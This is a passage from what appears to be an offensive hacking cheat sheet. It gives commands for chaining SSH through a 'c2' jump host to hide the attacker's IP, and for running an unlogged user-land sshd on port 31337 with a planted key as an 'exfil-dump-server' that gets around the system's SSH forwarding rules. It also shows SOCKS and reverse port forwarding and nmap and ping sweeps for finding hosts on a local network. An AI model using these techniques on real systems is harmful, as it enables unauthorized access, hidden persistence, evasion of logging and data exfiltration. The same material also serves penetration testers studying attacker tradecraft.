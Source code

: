 ```sh 
## if we want to SSH to $target-host:
kali@local-kali$ ssh -J c2@10.25.237.119,jumpuser@192.168.5.135 target@172.16.2.121

## if we want to SSH to just $internal-jumphost:
kali@local-kali$ ssh -J c2@10.25.237.119 jumpuser@192.168.5.135
```

> We use this as well to hide our IP address when logging into servers. 

<a id="sshd-user"></a>
**2.vii SSHD as user land**

It is possible to start a SSHD server as a non-root user and use this to multiplex or forward TCP connection (without logging and when the systemwide SSHD forbids forwarding/multiplexing) or as a quick exfil-dump-server that runs as non-root:
```sh
# On the server, as non-root user 'joe':
mkdir -p ~/.ssh 2>/dev/null
ssh-keygen -q -N "" -t ed25519 -f sshd_key
cat sshd_key.pub >>~/.ssh/authorized_keys
cat sshd_key
$(command -v sshd) -f /dev/null -o HostKey=$(pwd)/sshd_key -o GatewayPorts=yes -p 31337 # -Dvvv
```
```sh
# On the client, copy the sshd_key from the server. Then login:
# Example: Proxy connection via the server and reverse-forward 31339 to localhost:
ssh -D1080 -R31339:0:31339 -i sshd_key -p 31337 joe@1.2.3.4
# curl -x socks5h://0 ipinfo.io
```

[SSF](https://securesocketfunneling.github.io/ssf/#home) is an alternative way to multiplex TCP over TLS.

---
<a id="network"></a>
## 3. Network
<a id="discover"></a>
**3.i. Discover hosts**

```sh
## ARP disocer computers on the local network
nmap -r -sn -PR 192.168.0.1/24
```

```sh
## ICMP discover computers on the local netowrk
NET="10.11.0"  # discover 10.11.0.1-10.11.0.254
seq 1 254 | xargs -P20 -I{} ping -n -c3 -i0.2 -w1 -W200 "${NET:-192.168.0}.{}" | grep 'bytes from' | awk '{print $4" "$7;}' | sort -uV -k1,1
```

---
<a id="tcpdump"></a>
**3.ii. tcpdump**
